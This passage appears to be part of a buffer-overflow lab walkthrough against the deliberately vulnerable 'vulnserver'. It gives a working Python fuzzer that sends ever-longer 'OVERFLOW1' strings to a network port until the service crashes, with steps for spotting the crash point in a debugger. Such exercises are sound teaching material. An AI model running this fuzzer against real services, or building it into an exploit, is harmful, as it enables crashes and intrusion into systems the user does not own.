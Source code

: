 - - -
## Fuzzing : 

> [! Note ]
> Attach the vulnserver to immunity-debbugger and run it.

Create a python script called **fuzzer.py**. 

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 9090
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))
            s.recv(1024)
            print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
            s.send(bytes(string, "latin-1"))
            s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)
    string += 100 * "A"
    time.sleep(1)
```


Give executable permissions and Run the script.

Change your screen to debbugger window and enjoy the scene.

As the program crashes/pause. Move to the Fuzzer script and press CTRL+C, this will print the Crashing point.

![Imgur](https://i.imgur.com/BEHPWQH.png)

- - -



